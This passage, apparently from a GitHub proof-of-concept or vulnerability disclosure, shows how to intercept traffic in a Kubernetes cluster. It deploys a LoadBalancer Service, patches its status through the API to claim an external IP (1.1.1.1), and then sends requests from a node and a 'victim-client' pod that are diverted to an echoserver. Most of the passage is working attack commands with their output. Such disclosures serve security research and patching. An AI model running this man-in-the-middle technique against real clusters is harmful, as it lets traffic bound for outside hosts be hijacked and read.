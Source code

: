 ```
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

### 1a) external traffic interception using service type LoadBalancer
Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-lb
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/kubeproxy-mitm/services/mitm-external-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"1.1.1.1"}]}}}'
pkill kubectl
```
After the patch call, LoadBalancer IP is properly configured (ie not pending)
```
kubectl get -n kubeproxy-mitm svc/mitm-external-lb
# NAME               TYPE           CLUSTER-IP     EXTERNAL-IP   PORT(S)                      AGE
# mitm-external-lb   LoadBalancer   10.233.53.58   1.1.1.1       80:31475/TCP,443:31258/TCP   47s
```
Test if the MITM works
```
# node -> ip
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec victim-client -- curl -sv http://1.1.1.1
kubectl exec victim-client -- curl -sv https://1.1.1.1 -k
```
Cleanup
```
kubectl delete -n kubeproxy-mitm svc/mitm-external-lb
```

